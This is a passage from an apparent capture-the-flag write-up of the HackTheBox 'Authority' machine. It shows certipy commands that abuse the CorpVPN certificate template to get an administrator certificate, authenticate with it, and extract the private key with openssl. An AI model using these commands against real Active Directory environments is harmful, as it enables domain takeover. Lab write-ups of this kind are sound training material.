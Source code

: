 Now I use **`certipy`** to request a certificate as **`administrator`**

```bash
certipy req -username fake$ -password 'Zerodol@1234' -dc-ip 10.10.11.222 -ca AUTHORITY-CA -upn administrator@authority.htb -dns authority.thb -template CorpVPN -debug
```

![image.png](image%2019.png)

## LDAP Shell

```bash
certipy auth -pfx administrator_authority.pfx -debug
```

![image.png](image%2020.png)

```bash
openssl pkcs12 -in administrator_authority.pfx -nocerts -out administrator.key
```

![image.png](image%2021.png)
